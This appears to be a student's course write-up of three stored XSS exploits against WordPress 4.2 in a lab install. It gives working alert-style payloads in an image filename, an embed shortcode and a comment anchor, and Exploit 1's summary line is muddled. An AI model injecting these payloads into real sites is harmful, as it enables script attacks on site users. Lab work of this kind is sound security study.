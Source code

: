 # CodePath Week 7
Week 7 Word Press Exploits

Exploit 1: Cross-Site Scripting (XSS)

Summary:
CVE-2017-0961
Vulnerability type : XSS
Tested Version: 4.2
Fixed Version: 4.2.1
Uploading a large payload file that exceeds the limit results in an error.

Steps:
xss<img src=x onerror=alert(1)>.png
upload to new media on wpdistillery


Exploit 2: Authenticated XSS in youtube link

Summary:
Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Must be a registered user with acess to edit/create posts
In creating a post, upload the following script:
[embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
After clicking update, click view post- you will get the XSS alert
![Exploit2XSSyoutubeurl](https://github.com/neilhendricks/week7/blob/master/exploit2gif.gif?raw=true)


Exploit 3: Unauthenticated XSS in comment

Summary:

Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Comment on a post with the following script
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute; left:0; top:0; width:5000px; height:5000px  <insert 64kb of random data>'></a>





